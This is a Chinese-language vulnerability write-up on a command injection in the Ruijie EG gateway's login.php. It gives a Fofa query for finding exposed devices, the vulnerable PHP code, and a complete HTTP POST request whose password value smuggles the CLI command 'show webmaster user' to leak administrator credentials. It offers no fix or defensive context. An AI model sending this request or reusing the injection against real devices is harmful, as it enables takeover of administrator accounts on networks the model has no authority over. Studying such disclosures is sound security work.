

# 锐捷 EG易网关 login.php 管理员账号密码泄露漏洞

## 漏洞描述

锐捷EG易网关 login.php存在 CLI命令注入，导致管理员账号密码泄露漏洞

## 漏洞影响

<a-checkbox checked>锐捷EG易网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Ruijie-EG易网关"</a-checkbox></br>

## 漏洞复现

登录页面如下





漏洞文件 login.php


```php
<?php

/**
 * 用户登录处理
 */
define('IN', true);     //定位该文件是入口文件
define('DS', DIRECTORY_SEPARATOR);
define('AROOT', dirname(__FILE__) . DS);

class defaultController {

    function __construct() {
        
    }

    /**
     * 登录处理
     */
    public function indexAction() {
$username = p("username");$password = p("password");$data = [];
$reg='/(\r|\n)+/';
if (count(preg_split($reg, $username)) > 1 || count(preg_split($reg, $password)) > 1) {
$data["status"] = 6;
$data["msg"] = "username or password can't exist '\r\n'";
json_echo($data);
exit();
}
        if ($username == FALSE || $password == FALSE) {
            $data["status"] = 5;
            $data["msg"] = "username or password can't empty";
            json_echo($data);
            exit();
        }
        $res = execCli("exec", "webmaster $username $password");
        if ($res["status"] != 1) {
            json_echo($res);
            exit();
        }
        $isSuccess = trim($res["data"]);
        if ($isSuccess == 0) {    //用户名、账号验证成功
            session_start();
            $_SESSION['username'] = $username;  //记录用户名
            $_SESSION["lasttime"] = time();    //记录登录时间
            $config = @file_get_contents(DS . "data" . DS . "web.config");    //获取web配置信息
            if ($config != false) {
                $config = unserialize($config);
                $_SESSION["timeout"] = isset($config["loginTimeout"]) ? $config["loginTimeout"] * 60 : c("timeout");
            } else {
                $_SESSION["timeout"] = c("timeout");
            }
            setcookie("user", $_SESSION['username']);
        }
        $res["data"] = $isSuccess;
        json_echo($res);
    }

    /**
     * 获取设备信息
     */
    function versionAction() {
        $info = $version = execCli("exec", "show version detail", "");
        $info["data"] = preg_split("/\r*\n/", $info["data"]);
        json_echo($info);
    }

}

include_once(AROOT . "init.php");    //mvc初始化入口，放在底部
```


关键代码部分


```plain
if ($username == FALSE || $password == FALSE) {
            $data["status"] = 5;
            $data["msg"] = "username or password can't empty";
            json_echo($data);
            exit();
        }
        $res = execCli("exec", "webmaster $username $password");
        if ($res["status"] != 1) {
            json_echo($res);
            exit();
        }
        $isSuccess = trim($res["data"]);
```


发送请求包，拼接 CLI指令 `show webmaster user`


```plain
POST /login.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 49
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

username=admin&password=admin?show+webmaster+user
```


成功获取账号密码

